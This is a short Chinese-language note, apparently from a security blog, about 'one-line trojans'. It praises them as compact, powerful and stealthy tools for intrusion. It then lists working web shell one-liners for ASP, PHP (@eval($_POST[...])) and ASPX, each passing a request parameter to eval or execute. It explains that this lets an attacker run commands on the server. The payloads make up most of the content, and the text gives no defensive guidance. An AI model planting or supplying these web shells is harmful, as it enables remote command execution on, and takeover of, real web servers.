 # 一句话木马

一句话木马短小精悍，而且功能强大，隐蔽性非常好，在入侵中始终扮演着强大的作用。

常用一句话木马 asp一句话木马： `<%execute(request(“value”))%>` php一句话木马： `<?php @eval($_POST[value]);?>` aspx一句话木马： `<%@ Page Language=“Jscript”%>` `<%eval(Request.Item[“value”])%>`

把需要执行的php脚本片段，通过密码pass参数传给服务器端，服务器通过eval函数进行执行。 可以看出，一句话木马的本质是PHP,ASP\(ASPX\)语言具有eval函数，使之具有了动态性，基于动态性，攻击者就可以把命令传给服务器端的一句话木马进行执行。

